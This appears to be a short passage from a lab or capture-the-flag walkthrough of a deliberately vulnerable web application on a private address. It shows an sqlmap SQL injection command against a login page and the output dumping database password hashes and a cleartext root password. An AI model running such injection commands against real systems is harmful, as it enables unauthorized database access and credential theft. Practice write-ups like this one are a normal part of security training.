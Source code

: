 ![](uploads/images/seattle-admin.png)

Using the same vuln but with the admin creds this time shows the root account.

```
# sqlmap -u 'http://192.168.93.173/login.php' --data "usermail=admin@seattlesounds.net&password=Assasin1" -p usermail --users --passwords
```

```
database management system users password hashes:
[*] root [2]:
    password hash: *56C28F8C2F6D2BD560D6D2F04565A902BEAA3738
    password hash: *845A9ADD7E1A82B6459804066B3A45D0025897B6
    clear-text password: PASSWORD
```
So the username is `root` and the password is `PASSWORD` in clear text
